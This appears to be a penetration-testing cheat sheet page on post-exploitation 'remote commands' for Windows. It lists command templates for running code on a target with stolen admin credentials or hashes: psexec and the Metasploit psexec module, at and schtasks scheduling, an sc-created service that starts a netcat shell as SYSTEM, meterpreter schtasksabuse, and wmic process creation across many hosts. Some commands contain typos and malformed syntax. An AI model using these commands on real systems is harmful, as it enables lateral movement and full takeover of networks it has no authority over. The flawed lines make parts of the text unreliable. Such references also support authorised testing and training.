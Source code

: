 ```yaml
---
title: Remote Commands
category: Post-Exploitation
order: 3
---
```


> **WINDOWS** 

psexec (requires install, creates service on target) | <code> psexec \\[tartgetIP] [-d] [-u user]  [-p password] [command] [-s for system] [-d for disconnected like netcat] </code>
Metasploit  psexec (writes executable, creates a service with system privs, automatically removes service and executable) | <code> msf > use exploit/windows/smb/psexec <br>  msf > set PAYLOAD [payload] <br> msf > set RHOST [tartget] <br> msf > set SMBUser [admin_username] <br> msf > set SMBPass [admin_password_or_hash] </code>
at <br> windows 7 and lower <br> all commands at SYSTEM | <code> net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> #if it isnt running <br> sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" </code> 
schtasksStart | Time - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE <br> <code> net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command] <br> schtasks /query /s [targetIP]" </code>
SC - Runs as SYSTEM | <code> sc \\[targetIP] create netcat binpath= ""cmd.exe /k c:\tools\nc.exe -L -p cmd.exe <br> sc \\[targetIP] start netcat </code>
Metasploit schtasks | <code> meterpreter> run schtasksabuse -c "[command1][,command2].." -t [target IP] </code>
WMIC Invoke Porgram Runs as Admin User | <code> wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] </code>
WMIC on Multiple Machines | <code> /node:@[filename] - run a command on multiple machines listed in a file
</code>

